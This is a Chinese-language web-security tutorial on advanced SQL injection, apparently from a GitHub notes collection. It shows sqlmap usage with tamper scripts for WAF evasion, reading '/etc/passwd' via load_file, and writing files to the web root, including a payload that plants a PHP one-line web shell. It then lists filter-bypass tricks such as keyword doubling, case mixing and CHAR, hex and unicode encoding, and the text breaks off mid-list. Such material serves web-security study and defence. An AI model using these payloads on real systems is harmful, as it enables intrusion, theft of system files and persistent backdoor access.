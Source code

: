 使用SQLMap提供的tamper脚本，可在一定程度上避开应用程序的敏感字符过滤、绕过WAF规则的阻挡，继而进行渗透攻击。

用法：sqlmap -u "http://www.xxx.com/xxx.php?id=1" --dbs --tamper=t1,t2,t3

**以下为常用tamper脚本列表：**

<img src="SQL注入/media/1634051626730525000858.png" alt="SQL注入/media/1634051626730525000858.png" style="zoom:50%;" align="left"/>
# SQL注入高级用法

## 提权

* 在权限足够的情况下，通过SQL注入进行文件的读写：

load_file() 读文件：union select 1，load_file('/etc/passwd')

into outfile() 写文件：select * into outfile('/var/www/html/1.txt')

into dumpfile()写文件：select * into dumpfile('/var/www/html/1.txt')

* dumpfile和outfile的区别：

dumpfile输出的内容没有格式，而且内容全部在一行，适合写入可执行文件。

outfile适合写入一句话木马，语句如下：

```sql
?id=1' union select 1,2,"<?php @eval($_POST['pass']); ?>" into outfile "D:/test/WWW/shell.php"%23
```
* secure-file-priv 的限制

<img src="SQL注入/media/1634051626736010000842.png" alt="SQL注入/media/1634051626736010000842.png" style="zoom:50%;" align="left"/>
## WAF绕过

1. 应对简单的非迭代的将select、or等关键字替换为空字符串的防御
```sql
seselectlect from 、where username='x' OorR 1=1
```
2. 应对简单的区分大小写的关键字匹配，比如php中preg_match函数没有加/i参数
```sql
SelecT，Or
```
3. 编码绕过
        * ASCII

admin可以用CHAR(97)+char(100)+char(109)+char(105)+char(110)代替,select * from admin where username=(CHAR(97)+char(100)+char(109)+char(105)+char(11 0))

        * 16进制

extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)

        * unicode编码

  单引号——%u0027 、%u02b9、%u02bc、%u02c8、%u2032、%uff07

        * URL编码
